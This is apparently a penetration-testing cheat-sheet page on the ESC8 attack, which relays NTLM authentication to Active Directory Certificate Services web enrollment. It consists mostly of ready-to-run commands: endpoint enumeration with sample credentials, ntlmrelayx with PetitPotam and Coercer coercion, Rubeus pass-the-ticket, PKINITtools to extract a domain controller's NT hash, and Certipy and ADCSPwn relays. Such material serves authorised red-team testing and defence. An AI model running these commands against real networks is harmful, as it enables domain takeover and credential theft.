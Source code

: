 ```yaml
---
description: NTLM Relay to AD CS HTTP Endpoints
---
```


# ESC8

* [https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/](https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/)
* [https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)
* [https://habr.com/ru/company/deiteriylab/blog/581758/](https://habr.com/ru/company/deiteriylab/blog/581758/)
* [https://habr.com/ru/companies/jetinfosystems/articles/846066/](https://habr.com/ru/companies/jetinfosystems/articles/846066/)




## Enumerate

Discover CES endpoints with certutil:

```
Cmd > certutil.exe -enrollmentServerURL -config CA01.megacorp.local\CA01
```

Discover CES endpoints with PowerShell:

```
PS > Get-CertificationAuthority | select name,enroll* | fl
```

Check a bunch of targets for the vulnerable endpoint:

```
$ for ip in `cat ~/ws/discover/hosts/ca.txt`; do curl -sSLkI -u 'MEGACORP\snovvcrash:Passw0rd!' --ntlm http://$ip/certsrv/certfnsh.asp | grep -e 401 -e 200 > /dev/null && echo "[+] $ip" || echo "[-] $ip"; done
```




## Exploit



### ntlmrelayx

* [https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* [https://github.com/fortra/impacket/pull/1101](https://github.com/fortra/impacket/pull/1101)
* [https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)

```
$ ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --adcs [--template VulnTemplate] --no-http-server --no-wcf-server --no-raw-server
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
PS > .\Rubeus.exe asktgt /user:DC1$ /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```



### PKINITtools

* [https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
* [https://github.com/dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)
* [https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099](https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099)

Backup original `httpattack.py` and copy one from the toolkit with a modified domain name and a template if needed (`DomainController` is by default, but also one may use `KerberosAuthentication`):

```
$ sudo cp /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak
$ subl ntlmrelayx/httpattack.py
$ sudo cp ntlmrelayx/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```

Perform the relay attack, request the TGT via PKINIT and get the NT hash based on U2U Kerberos extension:

```
$ ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-http-server --no-wcf-server --no-raw-server
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 gettgtpkinit.py megacorp.local/'DC1$' -cert-pem cert.pem -key-pem privatekey.pem dc1.ccache
$ KRB5CCNAME=dc1.ccache python3 getnthash.py megacorp.local/'DC1$' -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```

Revert the original `httpattack.py`:

```
$ sudo mv /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```



### Certipy

Prepare for the relay attack:

```
$ certipy relay -ca 192.168.1.12 -template DomainController
```



### ADCSPwn

- [https://github.com/bats3c/ADCSPwn](https://github.com/bats3c/ADCSPwn)

{% embed url="https://youtu.be/W9pUCVxe59Q" %}

Start a relay server:

```
PS > .\ADCSPwn.exe --adcs CA01.megacorp.local
```

Coerce the authentication, e. g. via [Coercer](https://github.com/p0dalirius/Coercer):

```
$ coercer coerce -u snovvcrash -p 'Passw0rd!' -t 192.168.1.11 -l VICTIM01 --auth-type http --http-port 8080
```
